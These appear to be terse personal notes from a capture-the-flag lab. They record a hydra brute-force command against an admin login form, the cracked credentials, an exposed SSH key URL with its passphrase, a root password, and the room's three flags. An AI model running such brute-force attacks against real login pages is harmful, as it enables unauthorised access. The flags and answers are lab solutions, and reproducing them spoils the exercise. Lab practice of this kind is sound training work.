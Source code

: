 ip: 10.10.53.177

/admin login page

hydra -l admin -P rockyou.txt 10.10.53.177 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V

user=admin&pass=passwdiguess

**CREDS**
uname: admin
paswd: xavier

ssh RSA key
http://10.10.53.177/admin/panel/id_rsa

key passphrase:
rockinroll

ssh uname: john

root passwd
football

**FLAGS**
web
THM{brut3_f0rce_is_e4sy}

user.txt
THM{a_password_is_not_a_barrier}

root.txt
THM{pr1v1l3g3_3sc4l4t10n}